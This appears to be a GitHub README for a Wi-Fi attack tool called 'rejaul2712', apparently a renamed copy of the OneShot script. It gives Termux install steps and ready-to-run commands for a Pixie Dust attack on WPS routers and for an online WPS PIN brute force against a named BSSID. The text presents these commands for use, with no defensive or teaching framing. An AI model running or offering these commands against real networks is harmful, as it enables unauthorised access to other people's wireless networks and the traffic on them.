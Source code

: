 # rejaul2712

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

git clone https://github.com/princeicon2712/rejaul2712.git

$ cd rejaul2712

$ chmod +x *

$ python rejaul.py -h

plz' go to HOME

Example : sudo python rejaul2712/rejaul.py -i wlan0 -K


Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

wps router push button:- sudo python oneshot.py -i wlan0 --pbc

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
